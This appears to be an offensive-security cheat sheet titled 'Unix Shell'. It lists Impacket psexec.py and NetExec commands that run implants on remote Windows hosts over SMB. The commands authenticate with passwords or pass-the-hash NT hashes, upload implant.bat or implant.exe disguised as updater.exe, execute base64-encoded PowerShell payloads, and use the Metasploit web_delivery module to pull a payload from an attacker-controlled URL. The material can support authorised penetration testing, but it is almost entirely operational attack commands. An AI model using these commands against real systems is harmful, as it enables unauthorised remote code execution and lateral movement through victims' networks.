 # Unix Shell

## 01 - Impacket

Execute `.bat` files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -c implant.bat

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -c implant.bat
```

Execute custom `.exe` service files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe
```

## 02 - NetExec

Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Refer to [[Web Delivery|Metasploit Web Delivery]] module.

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]
```

---
## References

- [Hacking Articles: Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)